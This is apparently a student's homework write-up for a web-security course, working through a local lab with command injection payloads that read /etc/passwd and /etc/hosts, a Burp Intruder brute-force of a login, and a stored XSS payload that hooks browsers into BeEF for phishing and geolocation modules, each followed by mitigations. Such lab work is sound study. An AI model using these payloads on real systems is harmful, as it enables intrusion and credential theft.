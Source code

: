 ### Week 15 Homework: Web Vulnerabilities and Hardening Homework

#### Web Application 1: *Your Wish is My Command Injection*

Access Vagrant and open a browser.

Launch Vagrant from GitBash and run the following command:

`cd ./Documents/web-vulns && docker-compose up`

Leave this page open and continue to the next step.

Open Chrome, navigate to the following web page:

`http://192.168.13.25`

Log in with the following credentials:

- User name: `admin`
- Password: `password`

Select the `Command Injection` option from the left menus.

Using the dot-dot-slash `../` method five times to design two payloads that will display the contents of the following files:

- `/etc/passwd`

	`8.8.8.8 && cat ../../../../../etc/passwd`
![cat ../../../../../etc/passwd](https://github.com/zwang21/Week-15-Homework/blob/main/images/passwd.png "cat ../../../../../etc/passwd")

- `/etc/hosts`

	`8.8.8.8 && cat ../../../../../etc/hosts`
![cat ../../../../../etc/hosts](https://github.com/zwang21/Week-15-Homework/blob/main/images/hosts.png "cat ../../../../../etc/hosts")

**Recommended mitigation strategies:**

- Server-side validation that does not allow selection of unintended files.​
- Segregation of confidential files from the web server and accessible directories.
- Permissions to restrict web server account accessibility.

#### Web Application 2: *A Brute Force to Be Reckoned With*

Run this command `sudo burpsuite` in Vagrant command line.

Open Firefox which was already installed `FoxyProxy` add-on extension in class activities.
![](https://github.com/zwang21/Week-15-Homework/blob/main/images/bwapp.png)

In Burpsuite, I got following intercept data:

```
Request to http://192.168.13.35:80
```
```
POST /ba_insecure_login_1.php HTTP/1.1
Host: 192.168.13.35
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Connection: close
Referer: http://192.168.13.35/ba_insecure_login_1.php
Cookie: PHPSESSID=l998k837fiaj3b5c1o8kcsf0m6; security_level=0
Upgrade-Insecure-Requests: 1

login=test-user&password=password&form=submit
```

![Proxy Intercept results](https://github.com/zwang21/Week-15-Homework/blob/main/images/intercept.png)

- Send above Proxy intercept results to Intruder. Click `Intruder` tab;
- Verify `Target`;

![Intruder Target](https://github.com/zwang21/Week-15-Homework/blob/main/images/intruder-target.png)

- Setup `Positions`, select attack type `Cluster bomb`; 
- Configure and add `login` and `password` as positions.

![Intruder Positions](https://github.com/zwang21/Week-15-Homework/blob/main/images/intruder-positions.png) 

- Click `Payloads` tab, choose `Payload` type as `Simple list`;
- Add login user ID from `List of Administrators` file into Payload set 1;
- Add password from `Breached list of Passwords` file into Payload set 2;

![Intruder Payloads](https://github.com/zwang21/Week-15-Homework/blob/main/images/intruder-payloads.png)
 
- Click `Start attack`
 
After analysis of intruder attack results, the login username/password combination of "**`tonystark`**" and "**`I am Iron Man`**" did result in a successful login. The page displays `Successful login! You really are Iron Man :)`.

![Intruder Results](https://github.com/zwang21/Week-15-Homework/blob/main/images/intruder-results.png)

Recommended mitigation strategies:

- Mitigations can include requiring complex usernames and passwords, using multi-factored authentication, and enabling a lockout after a certain amount of failed login attempts.

#### Web Application 3: *Where's the BeEF?*

**Step 1, Prepare Replicants website**

Inside Vagrant, go to this folder, run command:
`~/Documents/web-vulns$ docker-compose up`

Go to this website:
`http://192.168.13.25/vulnerabilities/xss_s/`

Reset db and login again.
Username: `admin`
Password: `password`

**Step 2, Setup BeEF**

On Vagrant, open a command line and run the following command: `sudo beef`

When prompted for a password, enter `cybersecurity`.

To access the BeEF GUI, right-click the first URL `UI_URL: http://127.0.0.1:3000/ui/panel` and select Open Link.

When the BeEF webpage opens, login with the following credentials:

Username: `beef`
Password: `feeb`

**Step 3, Find BeEF hook and write payload**

```
BeEF hook: http://127.0.0.1:3000/hook.js

Playload: <script src="http://127.0.0.1:3000/hook.js"></script>
```

**Step 4, Inject this payload**

One issue was found: in the message box field, there only has maxlength="50" in original source code, therefore we can not input the whole payload code.
![](https://github.com/zwang21/Week-15-Homework/blob/main/images/maxlength-50.png)

Solution: Right-clicking on web page and selecting "Inspecting the Element". Change as `maxlength="100"`, or just delete this code limit.

![](https://github.com/zwang21/Week-15-Homework/blob/main/images/maxlength-100.png)

**Step 5, A couple BeEF exploits**

Social Engineering >> Pretty Theft

![Pretty Theft - Facebook](https://github.com/zwang21/Week-15-Homework/blob/main/images/pretty-theft.png)

![Pretty Theft - LinkedIn](https://github.com/zwang21/Week-15-Homework/blob/main/images/pretty-theft-2.png)

Social Engineering >> Fake Notification Bar

![Fake Notification Bar](https://github.com/zwang21/Week-15-Homework/blob/main/images/fake-notification-bar.png)

Host >> Get Geolocation (Third Party)

![Get Geolocation (Third Party)](https://github.com/zwang21/Week-15-Homework/blob/main/images/get-geolocation.png)

#### Recommended mitigation strategies

- Input validation is a common method used to mitigate cross-site scripting.
